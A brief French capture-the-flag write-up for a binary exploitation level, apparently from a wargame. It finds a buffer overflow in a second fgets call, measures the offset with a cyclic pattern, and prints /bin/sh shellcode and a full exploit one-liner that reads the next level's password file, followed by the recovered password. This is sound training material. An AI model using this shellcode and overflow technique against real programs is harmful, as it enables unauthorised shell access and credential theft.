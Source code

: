 1. On remarque le buffer overflow sur le deuxieme fgets. Pour exploiter la faille on passe le nom d'utilisateur attendu en debut de chaine, on remplit le buffer et enfin notre payload.

2. On trouve l'offset
   ```
   r < <(python -c 'print "dat_wil" + "\x90" * (256 - 7) + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"')

   Program received signal SIGSEGV, Segmentation fault.
   0x63413663 in ?? ()
   ```
   > 79

3. On choisit un shellcode
   ```
   \x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
   ```

4. On ecrit l'exploit


```
(python -c '''

user = "dat_wil"
shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
padding = "X" * (256 - len(user + shellcode) + 79)

print user + shellcode + padding + "\x08\x04\xa0\x47"[::-1]

'''; echo "cat /home/users/level02/.pass" ) | ./level01
```

> PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
